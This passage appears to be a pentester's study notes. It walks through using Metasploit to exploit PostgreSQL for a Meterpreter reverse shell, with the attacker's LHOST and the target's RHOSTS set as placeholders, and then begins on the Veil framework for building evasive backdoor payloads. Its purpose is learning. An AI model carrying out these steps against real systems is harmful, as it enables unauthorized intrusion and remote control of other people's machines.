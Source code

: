 ```sh
search postgrsql
```
- Payload execution looks interesting. It has one for Linux and one for Windows.

We can pick an exploit by doing the following command
```sh
use 11
```

Check the exploit options
```sh
show options
```
- The options show what needs to be set under the required column.
- This particular exploit requires us to enter both our IP and the target IP. 

Setting the required options
```sh
set LHOST <attcker-ip>
```
- You can also modify what port you want it to connect back on. The default is 4444

```sh
set RHOSTS <target-ip>
```
- There is also an option to set the RHOST port which may be required if it's not running on the usual port.

```sh
exploit
```

This gives a meterpreter shell. _I have a cheat sheet located in Kali > Tools > MultiTool_

Get system info
```sh
sysinfo
```

---

**Social Engineering and Malware Development**

Tools: Veil-Framerwork

After Install error

```sh
If you have any errors running Veil, run: './Veil.py --setup' and select the nuke the wine folder option
```

Start Veil
```sh
sudo veil
```
- To generate the payload it needs admin permissions

The two options you have at first are
- Evasion - used for backdoors
- Ordinance - creating payloads
